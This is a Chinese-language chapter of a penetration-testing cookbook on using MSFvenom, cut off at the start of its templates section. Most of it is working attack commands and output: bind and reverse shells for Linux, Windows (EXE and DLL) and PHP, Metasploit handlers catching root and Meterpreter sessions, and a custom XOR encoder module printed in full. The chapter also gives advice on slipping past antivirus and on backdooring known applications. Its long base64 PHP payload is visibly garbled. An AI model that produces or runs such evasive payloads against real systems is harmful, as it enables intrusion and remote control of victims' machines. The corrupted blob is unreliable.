








## 15 Using MSFvenom

在本章中，我们将涵盖以下教程：

- 有效载荷和有效载荷选项
- 编码器
- 输出格式
- 模板
- 带有受信任证书的 Meterpreter 有效载荷

## Introduction

到目前为止，你应该已经熟悉 MSFvenom，因为我们在之前的教程中已经使用过几次。MSFvenom 是用于有效载荷生成和编码的工具，它是 `msfpayload` 和 `msfencode` 的演进，并在 2015 年 6 月 8 日取代了它们。

在本章中，我们将更深入地了解可用的有效载荷，了解编码器在尝试规避检测时为何有用，检查可用的可执行文件、转换输出格式等等。

## Payloads and payload options

仅通过查看可用的有效载荷，我们就可以看出 MSFvenom 是最通用和有用的有效载荷生成工具之一；该列表证明 MSFvenom 可以帮助你在几乎任何情况下获得会话。

## Getting ready

要开始尝试 msfvenom，请启动一个终端窗口，并使用 msfvenom -h 或 msfvenom --help 显示帮助菜单。

## How to do it...

- 1. 让我们使用 -l 选项查看可用的有效载荷，使用 msfvenom 命令：
  
  ```
  root@kali:~# msfvenom -l payloads
  ```
  
  因为命令的输出太庞大，无法放入本教程中，我将留给你自行尝试。
  
- 2. 要生成有效载荷，我们始终至少需要使用两个选项，-p 和 -f。-p 选项用于指定要从 Metasploit Framework 中所有可用有效载荷中生成的有效载荷，在此示例中是通过 GNU AWK 的 bind shell：
  
  ```
  root@kali:~# msfvenom -p cmd/unix/bind_awk -f raw
  No platform was selected, choosing Msf::Module::Platform::Unix from the payload
  No Arch selected, selecting Arch: cmd from the payload
  No encoder or badchars specified, outputting raw payload
  Payload size: 96 bytes
  awk 'BEGIN{s="/inet/tcp/4444/0/0";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'
  ```
- 3. -f 选项用于指定输出格式，要列出所有可用格式，请使用 --help-formats 选项运行 msfvenom：
```
root@kali:~# msfvenom --help-formats
Executable formats
  asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe,
exe-only, exe-service, exe-small, hta-psh, jar, jsp,
loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd,
psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs,
war
Transform formats
  bash, c, csharp, dw, dword, hex, java, js_be,
js_le, num, perl, pl, powershell, ps1, py, python,
raw, rb, ruby, sh, vbapplication, vbscript
```

msfvenom 中有两种格式，可执行格式和转换格式。可执行格式将生成程序和脚本，而转换格式仅会生成有效载荷。

- 4. 我们还可以通过使用 -p 选项与 - 来指定自定义有效载荷，这在尝试规避安全解决方案时可能很有用：
```
root@kali:~# cat custom.raw | msfvenom -p - -a x64
--platform linux -f elf -o custom.elf
Attempting to read payload from STDIN...
No encoder or badchars specified, outputting raw
payload
Payload size: 86 bytes
Final size of elf file: 206 bytes
Saved as: custom.elf
root@kali:~#
```

在生成有效载荷时，我们使用 -a 选项指定要使用的架构，使用 --platform 指定有效载荷的平台，并使用 -o 保存有效载荷。

- 5. 要列出所有可用平台，请使用 --help-platforms 选项运行 msfvenom：
```
root@kali:~# msfvenom --help-platforms
Platforms
  aix, android, bsd, bsdi, cisco, firefox, freebsd,
hardware, hpux, irix, java, javascript, linux,
mainframe, multi, netbsd, netware, nodejs, openbsd,
osx, php, python, r, ruby, solaris, unix, windows
root@kali:~#
```

6. 在进行漏洞利用开发时，一个有用的功能是 --smallest 选项，我们可以用它来生成尽可能小的有效载荷：

```
root@kali:~# msfvenom -p linux/x64/shell_bind_tcp -f elf --smallest -o small.elf
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 86 bytes
Final size of elf file: 206 bytes
Saved as: small.elf
root@kali:~#
```

7. 要测试此有效载荷，我们可以使用 chmod 命令设置执行权限，然后运行有效载荷：

```
root@kali:~# chmod +x small.elf
root@kali:~# ./small.elf
```

8. 在另一个终端中，我们可以使用 netcat 连接到端口 4444 上的 bind shell：

```
root@kali:~# nc 127.0.0.1 4444
hostname
kali
id
uid=0(root) gid=0(root) groups=0(root)
```

太好了，我们有一个可以使用的精简 Linux 有效载荷

9. 现在我们已经学会了如何创建基本的 bind shell，我们将尝试创建 reverse shell。首先，我们需要查看所选有效载荷的可用选项，我们可以使用 --payload-options 选项来完成：



10. 可用的选项令人眼花缭乱，但就目前而言，我们只需要设置基本选项，例如监听地址和端口：

```
root@kali:~# msfvenom -p linux/x64/shell/reverse_tcp LHOST=192.168.216.5 LPORT=1234 -f elf -o reverse.elf
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 127 bytes
Final size of elf file: 247 bytes
Saved as: reverse.elf
root@kali:~#
```

11. 要测试我们的有效载荷，我们首先需要在 Metasploit 中使用 Generic Payload Handler 漏洞利用模块在端口 1234 上设置监听器：

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD linux/x64/shell/reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.216.5:1234
```

12. 接下来，使用 chmod 命令设置执行权限，然后运行有效载荷：

```
root@kali:~# chmod +x reverse.elf
root@kali:~# ./reverse.elf
```

13. 如预期，我们有一个新的会话：

```
[*] Sending stage (38 bytes) to 192.168.216.5
[*] Command shell session 1 opened
(192.168.216.5:1234 -> 192.168.216.5:52172) at 2017-12-10 07:00:02 -0500

hostname
kali
id
uid=0(root) gid=0(root) groups=0(root)
```

14. 为 Windows 目标创建有效载荷同样简单；我们需要做的就是指定要使用的架构、目标平台、需要在目标上运行的有效载荷、监听地址，然后是输出格式和名称：

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -f exe -o payload.exe
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of exe file: 73802 bytes
Saved as: payload.exe
```

15. 接下来，我们需要在 Metasploit 中使用 Generic Payload Handler 漏洞利用模块设置监听器：

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run
```

```
[*] Started reverse TCP handler on 192.168.216.5:4444
```

16. 现在监听器已准备就绪，我们只需将有效载荷下载到 Windows 目标机器并运行它，这应该会返回一个新的会话：

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.216.5:4444
[*] Sending stage (179779 bytes) to 192.168.216.10
[*] Meterpreter session 1 opened
(192.168.216.5:4444 -> 192.168.216.10:49675) at 2017-12-11 15:46:11 +0000

meterpreter >
```

通过使用 -c 或 --add-code 选项指定额外的 win32 shellcode，我们可以将多个有效载荷合并为一个。

17. 首先，我们将使用 windows/messagebox 有效载荷创建一个简单的有效载荷，在目标上弹出一条消息：

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/messagebox TEXT="First Payload" -f raw > First_Payload
No encoder or badchars specified, outputting raw payload
Payload size: 267 bytes
root@kali:~#
```

18. 然后，我们将使用 -c 选项将第一个有效载荷添加到第二个有效载荷中：

```
root@kali:~# msfvenom -c First_Payload -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -f exe -o multi.exe
Adding shellcode from First_Payload to the payload
No encoder or badchars specified, outputting raw payload
Payload size: 917 bytes
Final size of exe file: 73802 bytes
Saved as: multi.exe
root@kali:~#
```

19. 当我们执行有效载荷时，目标机器上会出现一个消息框，我们的监听器上会出现一个新的会话：



## 编码器

生成有效载荷只是第一步；如今，诸如入侵检测系统（IDS）、防病毒和反恶意软件等安全产品可以轻松检测到 MSFvenom 生成的 shellcode。为了帮助我们规避安全检测，我们可以使用编码器对 shellcode 进行编码。

### 如何操作...

- 1. 通过使用 MSFconsole 的 show encoders 选项，或在 Kali Linux 机器上浏览 /usr/share/metasploit-framework/modules/encoders/ 文件夹，我们可以看到 Metasploit Framework 上所有可用的编码器：

```
msf > show encoders
```

- 2. 要对我们之前的有效载荷之一进行编码，我们只需添加 -e 选项，后跟我们想要使用的编码器，如果需要，我们还可以使用 -i 选项，后跟编码有效载荷的次数：

```
msf > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -f exe -e x86/shikata_ga_nai -i 10 -o encoded.exe
[*] exec: msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -f exe -e x86/shikata_ga_nai -i 10 -o encoded.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360 (iteration=0)
x86/shikata_ga_nai succeeded with size 387 (iteration=1)
x86/shikata_ga_nai succeeded with size 414 (iteration=2)
x86/shikata_ga_nai succeeded with size 441 (iteration=3)
x86/shikata_ga_nai succeeded with size 468 (iteration=4)
x86/shikata_ga_nai succeeded with size 495 (iteration=5)
x86/shikata_ga_nai succeeded with size 522 (iteration=6)
x86/shikata_ga_nai succeeded with size 549 (iteration=7)
x86/shikata_ga_nai succeeded with size 576 (iteration=8)
x86/shikata_ga_nai succeeded with size 603 (iteration=9)
x86/shikata_ga_nai chosen with final size 603
Payload size: 603 bytes
Final size of exe file: 73802 bytes
Saved as: encoded.exe
msf >
```

- 3. 为了验证你的有效载荷是否会被防病毒软件检测到，我们可以使用 VirusTotal：



不幸的是，正如我所预期的那样，尽管我们对其进行了 10 次编码，大多数防病毒软件仍会检测到我们的有效载荷。随着时间的推移，安全公司开始检测 Metasploit 中的默认编码器。但并非一切都完了；如果我们使用自定义编码器，我们仍然可以利用 Metasploit 来绕过安全产品。

- 4. 在本教程中，我们将使用 François Profizi 创建的自定义编码器，该编码器使用对已知明文的暴力攻击来绕过安全产品：

```
##
# This module requires Metasploit:
http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

require 'msf/core'

class MetasploitModule < Msf::Encoder

def initialize
super(
'Name' => 'bf_xor',
'Description' => '',
'Author' => 'François Profizi',
'Arch' => ARCH_X86,
'License' => MSF_LICENSE
)
end

def decoder_stub(state)
stub = ""
stub << "\xEB\x62\x55\x8B\xEC\x83\xEC\x18\x8B\x7D\x10\x8B\x75\x0C\x33\xC0\x89\x45\xFC\x8B"
stub << "\xC8\x83\xB1\x03\x03\xC9\x03\xC9\x03\xC9\x8B\xDA\xD3\xFB\x8A\xCB\x33\xDB\x39\x5D"
stub << "\x14\x75\x18\x0F\xB6\x1E\x0F\xB6\xC9\x33\xD9\x8B\x4D\x08\x0F\xB6\x0C\x08\x3B\xD9"
stub << "\x75\x07\xFF\x45\xFC\xEB\x02\x30\x0E\x40\x46\x3B\xC7\x7C\xC8\x3B\x7D\xFC\x74\x10"
stub << "\x83\x7D\x14\x01\x74\x06\x42\x83\xFA\xFF\x72\xAF\x33\xC0\xEB\x02\x8B\xC2\xC9\xC3"
stub << "\x55\x8B\xEC\x83\xEC\x10\xEB\x50\x58\x89\x45\xFC\xE7\x58\x8B\x10\x89\x55\xF8"
stub << "\x83\xC0\x04\x89\x45\xF4\x33\xDB\x33\xC0\x50\x6A\x0A\xFF\x75\xFC\xFF\x75\xF4\xE8"
stub << "\x72\xFF\xFF\xFF\x85\xC0\x74\x13\x6A\x01\xFF\x75\xF8\xFF\x75\xFC\xFF\x75\xF4\xE8"
stub << "\x5E\xFF\xFF\xFF\xFF\x65\xFC\xC9\xC3\xE8\xC4\xFF\xFF\xFF"
stub << [state.buf.length].pack("L") # size payload
stub << state.buf[0,10]
```


```
stub << "\xE8\xAB\xFF\xFF\xFF"
    return stub
end

def encode_block(state, block)
    key = rand(4294967295)
    encoded = ""
    key_tab = [key].pack('l<')
    i=0
    block.unpack('C*').each do |ch|
        octet = key_tab[i%4]
        t = ch.ord ^ octet.ord
        encoded += t.chr
        i+=1
    end
    return encoded
end
end
```

使用编码器时，将其复制到 /usr/share/metasploit-framework/modules/encoders/x86 文件夹中，并命名为 bf_xor.rb。

5. 现在我们已经准备好自定义编码器，可以使用它来编码我们的有效载荷并绕过安全解决方案：

```
root@kali:~# msfvenom -p windows/meterpreter
/reverse_tcp LHOST=192.168.216.5 -f exe-only
-e x86/bf_xor -o bf_xor.exe
No platform was selected, choosing Msf::Module::
:Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from
the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations
of x86/bf_xor
x86/bf_xor succeeded with size 526 (iteration=0)
x86/bf_xor chosen with final size 526
Payload size: 526 bytes
Final size of exe-only file: 73802 bytes
Saved as: bf_xor.exe
root@kali:~#
```

## 还有更多...

在测试有效载荷时，我们绝不应使用在线扫描器，例如 VirusTotal。它们会将样本与反病毒厂商和安全公司共享，以便他们改进服务和产品。这就是为什么在测试你的有效载荷时，你应该对目标进行适当的侦察，识别所使用的安全解决方案，然后在虚拟机上安装该产品，禁用客户端遥测提交，并安全地测试你的有效载荷。在本教程中，我已在 Symantec Endpoint Protection 12 上安装并测试了有效载荷：



这一次，我们成功绕过了反病毒解决方案：



## 输出格式

现在我们已经学习了 msfvenom 的基本用法，让我们探索一些可用的输出格式。本章开头，我们使用 --help-formats 选项列出了所有可用的输出格式；现在我们将重点关注一些不同的类型和选项。

## 如何操作...

我们将首先查看 dll 输出格式及其使用方法。DLL 代表 dynamic-link library，即动态链接库，是 Microsoft 对共享库概念的实现，意味着它们是可以导入到应用程序中的函数库。

- 1. 首先，我们将使用 dll 作为输出格式生成有效载荷并设置监听器：

```
root@kali:~# msfconsole -q
msf > msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.216.5 -f dll -o inject.dll
[*] exec: msfvenom -p windows/meterpreter
/reverse_https LHOST=192.168.216.5 -f dll -o inject.dll

No platform was selected, choosing Msf::Module::
:Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from
the payload
No encoder or badchars specified, outputting
raw payload
Payload size: 426 bytes
Final size of dll file: 5120 bytes
Saved as: inject.dll
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD
windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(multi/handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(multi/handler) > run

[*] Started HTTPS reverse handler on
https://192.168.216.5:8443
```

2. 与可执行文件不同，我们需要使用另一个应用程序来加载我们的 DLL 有效载荷。在此示例中，我们将使用 rundll32.exe 来加载库并运行 shellcode。要加载 DLL，请使用 rundll32.exe，后跟我们创建的 DLL 以及入口点名称 main：



```
msf exploit(multi/handler) > run

[*] Started HTTPS reverse handler on
https://192.168.216.5:8443
[*] https://192.168.216.5:8443 handling request
from 192.168.216.10; (UUID: xarfcvfr) Staging
x86 payload (180825 bytes) ...
[*] Meterpreter session 1 opened
(192.168.216.5:8443 -> 192.168.216.10:50589)
at 2017-12-15 15:08:45 +0000

meterpreter >
```

太好了，正如我们所预期的那样，我们使用 DLL 有效载荷获得了一个新会话。

MSFvenom 可以帮助我们创建具有隐蔽能力的有效载荷，利用高级 shell，例如 meterpreter，并在进行 Web 应用程序渗透测试时使用编码器。

- 3. 要使用 Base64 编码创建 PHP Meterpreter 有效载荷，我们可以使用以下命令：

```
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.216.5 -f raw -e php/base64
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1509 (iteration=0)
php/base64 chosen with final size 1509
Payload size: 1509 bytes
eval(base64_decode(Lyo8P3BocCAVKiovIGVycm9yX3JlcG9ydGluZygwKTSgJGlwID0gJzE5Mi4xNjgumJ E2LjUnOyAkcG9ydcA9IDQ0NDQ7IGlmICgoJG YgPSAnc3RyZWFTx3NvY2tldF9jbGllbnQnKSAmJ iBpc19jYWxsYWJsZSGkz ikpIHsgJHMgPSAkZigidGNWoi8veyRpC06eyRwb3J0FSIpOyAkc190eXBLLiD0gJ3N0cmVhbSc7IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJGYoJG1wLCAkcG9ydcK7ICRzX3R5cGUgPSAnc3RyZWFTxJzsgfSBpZiAoISRsICYMlCgkzIa9ICdzb2NrZXrfY3J1YXRLJyk gJiYgAXNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOyAkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOyB9ICRzX3R5cGUgPSAnc29ja29ja2V0JzsgfSBpZiAoISRsX3R5cGUlHsgZGL1KCdubyBzb2NrXQgZnVuY3MnKTsgSBpZiAoISRsZ3R5cGUgPSAnc29ja29ja2V0Jzsgf H0gc3dpdGN0ICgkcg190eXBLLiD0gJ3N0cmVhbSc7IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOyAkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOyB9ICRzX3R5cGUgPSAnc29ja29ja2V0Jzsgf SBpZiAoISRsX3R5cGUlHsgZGL1KCdubyBzb2NrXQgZnVuY3MnKTsgSBpZiAoISRsZ3R5cGUgPSAnc29ja29ja2V0Jzsgf H0gc3dpdGN0ICgkcg190eXBLLiD0gJ3N0cmVhbSc7 IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOy AkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOy B9ICRzX3R5cGUgPSAnc29ja29ja2V0Jzsgf SBpZiAoISRsX3R5cGUlHsgZGL1KCdubyBzb2NrXQgZnVuY3MnKTsgSBpZiAoISRsZ3R5cGUgPSAnc29ja29ja2V0Jzsgf H0gc3dpdGN0ICgkcg190eXBLLiD0gJ3N0cmVhbSc7 IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOy AkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOy B9ICRzX3R5cGUgPSAnc29ja29ja2V0Jzsgf SBpZiAoISRsX3R5cGUlHsgZGL1KCdubyBzb2NrXQgZnVuY3MnKTsgSBpZiAoISRsZ3R5cGUgPSAnc29ja29ja2V0Jzsgf H0gc3dpdGN0ICgkcg190eXBLLiD0gJ3N0cmVhbSc7 IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOy AkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOy B9ICRzX3R5cGUgPSAnc29ja29ja2V0Jzsgf SBpZiAoISRsX3R5cGUlHsgZGL1KCdubyBzb2NrXQgZnVuY3MnKTsgSBpZiAoISRsZ3R5cGUgPSAnc29ja29ja2V0Jzsgf H0gc3dpdGN0ICgkcg190eXBLLiD0gJ3N0cmVhbSc7 IH0gWyKCEkcyAmJiAoOYGYPsAnZnVvY2tvcGVuJyk gJiYgaxNFy2FsbGFibGUoJGYPKSB7ICRzID0gJG YoQuZfSUSFV CwgU09DS19TVFJFQU0UfINPFT9UQ1ApOy AkcmVZD1DgQHNvY2tldF9jb25uzWNOKCRzLCAkaXA5ICRwb3J0J0KTSgaWYgKCEkc mVzKSB7IGRpZSgpOy B9ICRzX3R5cGUgPSAnc29ja29ja2V0Jzsgf)
c2lvb19sb2FkZWQoJ3N1aG9zaW4nKSAmJiBp bmlfZ2V0KCdz
dWhvc2luLmV4ZWN1dG9yLmRpc2FibGVFZXZhCcpKSB7ICRz
dWhvc2luX2J5cGFz c1jcmVhdGVfZnVuY3Rpb24oJy c sICRi
KTsgJHN1aG9zaW5fYnlwYXNzKck7IH0ogZWxzZSB7IGV2YWwo
JGIPoYb9IGRpZSgpOw));
root@kali:~#
```

4. 要测试有效载荷，首先在新的终端窗口中启动监听器：

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD php/
meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.216.5:4444
```

5. 接下来，使用 php -a 启动 PHP 交互式 shell，并粘贴我们创建的有效载荷：



6. 回到监听器中，我们应该有一个新的会话：

```
root@kali:~# msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD php/meterpreter
/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
```

```
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.216.5:4444
[*] Sending stage (37543 bytes) to 192.168.216.5
[*] Meterpreter session 1 opened (192.168.216.5:4444
-> 192.168.216.5:40720) at 2017-12-17 05:43:06 -0500

meterpreter >
```

## 模板

后门已知应用程序可以成为入侵目标的一种良好方式，例如，当你已经在内部网络上并获得了对内部软件仓库的访问权限时。此外，通过使用自定义模板，你可能能够绕过一些使用默认模板来检测 Metasploit 有效载荷的安全解决方案。

### 准备工作

MSFvenom 默认使用 /usr/share/metasploit-framework/data/templates 目录中的模板，但我们可以使用 -x 选项选择使用自己的模板。

### 如何操作...

